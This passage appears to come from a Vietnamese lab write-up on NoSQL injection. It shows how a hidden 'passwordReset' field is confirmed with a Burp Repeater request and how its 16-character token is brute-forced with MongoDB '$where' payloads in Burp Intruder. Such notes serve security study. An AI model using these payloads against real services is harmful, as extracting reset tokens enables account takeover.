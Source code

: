   ![image-20250709175001773](./image/image-20250709175001773.png)

  => index 4: `passwordReset`

- Dùng Burp Repeater gửi request:

  ```
  GET /forgot-password?passwordReset=invalid
  ```

- Nếu server trả `Invalid token` → xác nhận đúng tên trường.

  ![image-20250709175222443](./image/image-20250709175222443.png)

  Xác định độ dài của field `passwordReset` (16) sd intruder để bruteforce và check điều kiện: 

  ```
  "$where": "this.passwordReset.length=='16'"
  "$where": "this.passwordReset.charAt(0)=='a'"
  ```
